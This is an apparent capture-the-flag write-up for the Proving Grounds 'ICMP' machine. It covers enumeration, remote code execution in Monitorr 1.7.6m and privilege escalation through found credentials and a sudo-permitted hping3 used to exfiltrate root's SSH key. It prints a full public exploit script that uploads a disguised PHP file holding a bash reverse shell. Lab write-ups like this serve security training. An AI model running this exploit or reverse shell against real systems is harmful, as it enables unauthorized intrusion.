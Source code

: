 # ICMP

## Background

> Feel free to ping me 

- Author: Fortunato 'foxlox' Lodari

- Released on: Aug 25, 2022

- Difficulty: Intermediate

- Overall difficulty for me: Easy
    - Initial foothold: Very easy
    - Privilege Escalation: Medium

# Service Enumeration

**Rustscan Result:**

As usual, scan the machine for open ports via `rustscan`!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a1.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a2.png)

According to `rustscan` result, we have 2 ports are opened:

Ports Open        | Service
------------------|------------------------
22                | OpenSSH 7.9p1 Debian
80                | Apache httpd 2.4.38

## HTTP on Port 80

Always enumerate HTTP first, as it has the largest attack vectors.

**http://192.168.129.218/mon/:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a3.png)

Found `Monitorr 1.7.6m`.

**Searchsploit Result:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a4.png)

Found 2 exploits!

# Initial Foothold

**Remote Code Execution (`48980.py`):**

- We can mirror the exploit to see what is it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a5.png)

**48980.py:**
```py
import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers)
```

The exploit doing a POST request in `/assets/php/upload.php`, and trying to upload a PHP reverse shell called `she_ll.php`. If uploaded, it'll trigger the PHP reverse shell in `/assets/data/usrimg/she_ll.php`.

**Let's setup a `nc` listener and run the exploit!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a6.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a7.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a8.png)

I'm `www-data`!

**local.txt:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a9.png)

**Stable Shell via `socat`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a10.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a11.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a12.png)

# Privilege Escalation

## www-data to fox

Something interesting in `fox`'s home directory?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a13.png)

Also, I found a misconfigured file in `/root`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a14.png)

It's **world-readable**!

**Normal `/root` permission:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a15.png)

Let's check it out!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a16.png)

Can I read his private SSH key?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a17.png)

Nope. Let's go back to `fox`'s home directory.

In his home directory, we also can see there is a directory called `devel`. Plus the `reminder` text file, makes me feel like `crypt.php` is inside the `devel` directory:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a18.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a19.png)

Maybe the `BUHNIJMONIBUVCYTTYVGBUHJNI` is user `fox`'s password??

- Username:fox
- Password:BUHNIJMONIBUVCYTTYVGBUHJNI

Let's **Switch User** to `fox`!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a20.png)

And we're `fox`!

## fox to root

**Sudo Permission:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a21.png)

As we can see, there are 2 commands we can run as root, and the first command could escalate our privilege to root, as it uses a wildcard.

Since we must use the ICMP mode, we can't spawn a shell.

BUT, according to a [blog back in 2008](https://www.codebelay.com/blog/2008/10/09/sending-files-with-hping3/), we can use `hping3` to transfer files to other machine. We can try to send root's private SSH key that we've just found.

**To do so, we'll:**

- Setup a `hping3` listener on the **first SSH session**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a22.png)

- Transfer root's private SSH key on the **second SSH session**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a23.png)

- Captured the private SSH key on the **first SSH session**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a24.png)

Let's copy and paste it to our attacker machine, and `ssh` into root:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a25.png)

We're root! :D

# Rooted

**proof.txt:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a26.png)

# Conclusion

What we've learned:

1. Remote Code Execution in Monitorr 1.7.6m
2. Privilege Escalation via Found Credentials From `crypt.php` in `/home/fox/devel/`
3. Privilege Escalation via Misconfigured `sudo` Permission to `hping3`